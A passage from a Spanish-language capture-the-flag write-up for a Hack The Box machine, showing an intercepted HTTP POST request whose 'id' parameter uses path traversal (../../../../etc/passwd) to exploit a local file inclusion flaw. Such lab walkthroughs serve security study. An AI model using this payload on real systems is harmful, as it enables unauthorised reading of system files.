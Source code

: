 Creo un nuevo blog

<img src="/writeups/assets/img/Format-htb/4.png" alt="">

Añado el subdominio ```rubbx.microblog.htb``` al ```/etc/hosts```. Al editar la web, intercepto la petición con ```BurpSuite```. El parámetro ```id``` por POST es vulenrable a LFI

```null
POST /edit/index.php HTTP/1.1
Host: rubbx.microblog.htb
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://rubbx.microblog.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://rubbx.microblog.htb/edit/?message=Section%20added!&status=success
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: username=8f18kueulgjqjb9dbljbuaovpd
Connection: close

id=../../../../etc/passwd&header=
```

<img src="/writeups/assets/img/Format-htb/5.png" alt="">

En la página principal se puede ver un enlace que lleva a un repositorio ```Git``` alojado en el puerto 3000
